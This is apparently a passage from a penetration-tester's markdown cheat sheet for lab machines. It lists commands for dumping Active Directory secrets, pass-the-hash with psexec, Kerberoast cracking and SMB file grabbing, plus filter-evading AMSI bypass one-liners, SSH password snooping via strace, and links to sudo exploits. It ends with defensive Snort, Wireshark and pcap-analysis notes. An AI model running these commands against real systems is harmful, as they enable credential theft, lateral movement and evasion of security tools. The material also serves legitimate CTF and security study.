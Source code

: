         * impacket-secretsdump -dc-ip 10.10.10.161 htb.local/testt:password@10.10.10.161
        * impacket-psexec htb.local/administrator@10.10.10.161 'powershell.exe' -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
    * hascat for TGS: `hashcat -m 13100 administrator.kerb /usr/share/wordlists/rockyou.txt --force -potfile-disable`
    * AMSI
        * Disable AMSI (has been patched): [Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiInitFailed","NonPublic,Static").SetValue($null,$true)
        * Same thing as above but evades filters: [Ref].Assembly.GetType("System.Management.Automation.Amsi"+"Utils").GetField("amsiIn"+"itFailed","NonPublic,Static").SetValue($null,$true)
        * May need to run the command again if you get blocked again. Triggering AMSI too many times causes a lockout, then you can't even disable it.
        * Here's a repo with more AMSI stuff: https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell (the above commands are the Matt Graebers Reflection method)
    * Get all files from a remote SMB share
        * `smbclient //10.10.10.100/Replication`
        * `RECURSE ON`
        * `PROMPT OFF`
        * `mget *`


## Linux
* SSH Snooping: `strace -o /tmp/ssh_log -ff -s8192 -T -ttt -fp $(pidof sshd)`
* Password bruteforce wordlist mangling generation:
    * `rsmangler -p -d -r -t -T -c -u -l -s -e -I --punctuation -a -C --pna --pnb --na -nb --force --space --file words.txt --output wordsmangled.txt`
* Baron Samedit sudo vuln (CVE-2021-3156) - 1.8.2 to 1.8.31p2 and 1.9.0 to 1.9.5p1
    * https://github.com/blasty/CVE-2021-3156/
    * https://github.com/TH3xACE/SUDO_KILLER/tree/master/exploits/CVE-2021-3156 <- different exploits for different versions. See readme, pick one.

# DCO

## Snort
* Basic rule syntax:
    * alert ip 37.46.12.6 !502 -> any any (msg: "Non-Authorized port from PLC"; sid:2233002; rev:1;)

## PCAPS

### Wireshark
* Filter and export selected packets often to speed up analysis
* dns.qry.name contains "ala.net"
* Look for python-requests as user agent <- devs are lazy

### Misc
* Convert pcapng to pcap
    * editcap -F pcap test.pcapng test.pcap
* Merge convert
    * mergecap -F pcap -w outfile.pcap infile_1.pcapng infile_2.pcapng
* Distill to netflow
    * nfpcapd -r infile.pcap -S 1 -l output_directory/
* Distill to bro
    * zeek -r pcap_to_log.pcap local "Log::default_rotation_interval = 1 day"
* Detect beacons/malicious traffic
    * https://github.com/activecm/rita
 